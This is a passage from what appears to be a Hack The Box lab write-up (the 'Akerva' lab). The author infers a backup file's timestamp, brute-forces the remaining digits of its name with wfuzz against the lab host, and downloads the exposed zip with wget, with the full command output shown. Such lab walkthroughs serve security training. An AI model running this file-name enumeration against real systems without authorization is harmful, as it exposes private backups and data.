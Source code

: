 We can infer the time of the output backup file
```
%Y = 2025  
%m = 07
%d = 31
%H = 03
%M = 56
%S = 39
```

Then we can fuzz the valid backup file 
```
┌──(wither㉿localhost)-[~/Templates/htb-labs/Akerva]
└─$ wfuzz -c -w /usr/share/seclists/Fuzzing/4-digits-0000-9999.txt -u http://10.13.37.11/backups/backup_2025073103FUZZ.zip -t 100 --hc 404  
 /usr/lib/python3/dist-packages/wfuzz/__init__.py:34: UserWarning:Pycurl is not compiled against Openssl. Wfuzz might not work correctly when fuzzing SSL sites. Check Wfuzz's documentation for more information.
********************************************************
* Wfuzz 3.1.0 - The Web Fuzzer                         *
********************************************************

Target: http://10.13.37.11/backups/backup_2025073103FUZZ.zip
Total requests: 10000

=====================================================================
ID           Response   Lines    Word       Chars       Payload                                                                                                        
=====================================================================

000005650:   200        82458    808131 W   20937176    "5649"                                                                                                         
                        L                   Ch                                                                                                                         

Total time: 39.46867
Processed Requests: 10000
Filtered Requests: 9999
Requests/sec.: 253.3654

```
We successfully get he payload, let's download it
```
┌──(wither㉿localhost)-[~/Templates/htb-labs/Akerva]
└─$ wget http://10.13.37.11/backups/backup_20250731035649.zip                                                                               
--2025-07-31 13:45:03--  http://10.13.37.11/backups/backup_20250731035649.zip
Connecting to 10.13.37.11:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 22071775 (21M) [application/zip]
Saving to: ‘backup_20250731035649.zip’

backup_20250731035649.zip                   100%[===========================================================================================>]  21.05M  1.70MB/s    in 30s     

2025-07-31 13:45:34 (728 KB/s) - ‘backup_20250731035649.zip’ saved [22071775/22071775]
```
